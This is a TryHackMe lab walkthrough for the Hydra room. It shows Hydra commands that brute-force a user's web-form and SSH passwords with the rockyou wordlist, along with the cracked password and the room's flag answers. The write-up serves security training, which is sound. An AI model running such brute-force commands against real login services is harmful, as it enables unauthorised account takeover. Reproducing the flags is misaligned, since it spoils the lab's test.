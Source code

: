 +++
date = '2025-09-16T14:19:28+07:00'
title = 'TryHackMe - Hydra Room Walkthrough'
tags = ['TryHackMe']
description = "Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials." 
draft = false

[cover]
  image = '/images/posts/tryhackme-hydra.png'
  alt = 'TryHackMe Hydra Room'
  caption = 'TryHackMe Hydra Room'
  relative = false
+++

This is my TryHackMe walkthrough, created to document my learning journey and share solutions with the community. The writeups include a mix of hints, step-by-step explanations, and final answers to help players who get stuck, while still encouraging independent problem-solving.

> Hydra Room - Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Overview

-   **Room URL:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)
-   **Difficulty:** Easy
-   **Time to complete:** 45

## Walkthrough

### 1. Hydra Introduction

_No hints needed!_

### 2. Using Hydra

-   <p>Use Hydra to bruteforce molly's web password. What is flag 1?<br /></p>

-   Start the machine and visit the website via MACHINE IP

![Guide image](/images/posts/hydra-1.png)

-   Open Web Devtools, in Network section, try login there is a POST request to `http://<MACHINE_IP>/login`

![Guide image](/images/posts/hydra-2.png)

-   Now we know the path, we can brute-force the password

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect" -V
```

![Guide image](/images/posts/hydra-3.png)

-   We got the password `sunshine`, login as `molly` and get the flag

![Guide image](/images/posts/hydra-4.png)

**=> Answer: `THM{2673a7dd116de68e85c48ec0b1f2612e}`**

-   <p>Use Hydra to bruteforce molly's SSH password. What is flag 2?<br /></p>

-   Do the same with ssh to get the password and gain access

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> -t 4 ssh
```

![Guide image](/images/posts/hydra-5.png)

-   Now we got the password, ssh to server and get the flag

```bash
ssh molly@<MACHINE_IP>

cat flag2.txt
```

![Guide image](/images/posts/hydra-6.png)

**=> Answer: `THM{c8eeb0468febbadea859baeb33b2541b}`**
